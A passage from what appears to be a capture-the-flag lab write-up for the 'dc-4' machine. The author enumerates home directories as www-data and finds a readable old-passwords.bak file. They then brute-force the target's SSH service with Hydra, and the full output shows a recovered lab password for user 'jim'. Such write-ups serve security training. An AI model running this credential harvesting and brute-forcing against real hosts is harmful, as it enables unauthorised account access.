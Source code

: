 # Post-Exploitation

---

## Enumerate Users

```bash
www-data@dc-4:/home$ ls -la
total 20
drwxr-xr-x  5 root    root    4096 Apr  7  2019 .
drwxr-xr-x 21 root    root    4096 Apr  5  2019 ..
drwxr-xr-x  2 charles charles 4096 Apr  7  2019 charles
drwxr-xr-x  3 jim     jim     4096 Nov 12 11:01 jim
drwxr-xr-x  2 sam     sam     4096 Apr  7  2019 sam

```

There is a _old-passwords.bak_ folder that we can read.

```bash
www-data@dc-4:/home/jim$ ls -la
total 36
drwxr-xr-x 3 jim  jim  4096 Nov 12 11:01 .
drwxr-xr-x 5 root root 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim  jim   220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 jim  jim  3526 Apr  6  2019 .bashrc
-rw-r--r-- 1 jim  jim   675 Apr  6  2019 .profile
drwxr-xr-x 2 jim  jim  4096 Apr  7  2019 backups
-rw-r--r-- 1 root root   33 Nov 12 11:01 local.txt
-rw------- 1 jim  jim   528 Apr  6  2019 mbox
-rwsrwxrwx 1 jim  jim   174 Apr  6  2019 test.sh
www-data@dc-4:/home/jim$ cd backups
www-data@dc-4:/home/jim/backups$ ls -la
total 12
drwxr-xr-x 2 jim jim 4096 Apr  7  2019 .
drwxr-xr-x 3 jim jim 4096 Nov 12 11:01 ..
-rw-r--r-- 1 jim jim 2047 Apr  7  2019 old-passwords.bak

```

We copy the passwords to our attack box and run Hydra against the SSH service for the users we enumerated.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-4]
└─$ hydra -L users.txt -P passwords.txt 192.168.226.195 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-11 22:19:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 756 login tries (l:3/p:252), ~48 tries per task
[DATA] attacking ssh://192.168.226.195:22/
[STATUS] 171.00 tries/min, 171 tries in 00:01h, 586 to do in 00:04h, 15 active
[22][ssh] host: 192.168.226.195   login: jim   password: jibril04
[STATUS] 139.00 tries/min, 417 tries in 00:03h, 340 to do in 00:03h, 15 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.

```
